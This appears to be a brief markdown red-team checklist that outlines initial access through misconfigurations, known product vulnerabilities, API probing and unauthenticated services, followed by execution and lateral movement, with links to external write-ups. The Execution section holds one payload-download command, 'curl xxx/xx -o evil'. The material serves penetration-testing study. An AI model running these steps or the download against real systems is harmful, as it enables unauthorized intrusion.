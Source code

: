 ## Initial Access
### 1. Misconfigure
- Nginx config
  - files: config / history / codes / authorization /
  - upload

- Spingboot Actuator
- Cloud Service

### 2. Vulnerability
- SQL Injection : [clickhouse](https://blog.deteact.com/yandex-clickhouse-injection/)
- Open-source Nday:
  - Fastjson
  - Log4j
  - Shiro
- Third-party products Nday:
- XSS : POST / DOM 
- File upload : 

### 3. API Pentest
- sensitive APIs in js files
- path brute-force : wordlists

### 4. Open Port
- high-risk brute-force
- sensitive ports
  - Unauthorization Access: Redis, Mongodb, Etcd, Rsync, Kafka, Zookeper, [Docker](https://askding.github.io/Kali/Exploit/Docker.html), Haddop
  - Specific scene : [IOT](https://cloud.tencent.com/developer/article/1776815)
- JRMP/[JMX](https://www.anquanke.com/post/id/200682)/RMI 


## Execution
- curl xxx/xx -o evil
- 

## Lateral move
- trust relationship : ssh
- portscan : ssh/redis/web
- 


## Tips
- Knowledge the environment like a new-bie
- Intranet assets : code hosting platform / management platform / 
- [red-team-tips](https://www.vincentyiu.com/red-team-tips)  @Vincent Yiu


## Reference
- [RedTeam-Tools_github](https://github.com/A-poc/RedTeam-Tools)
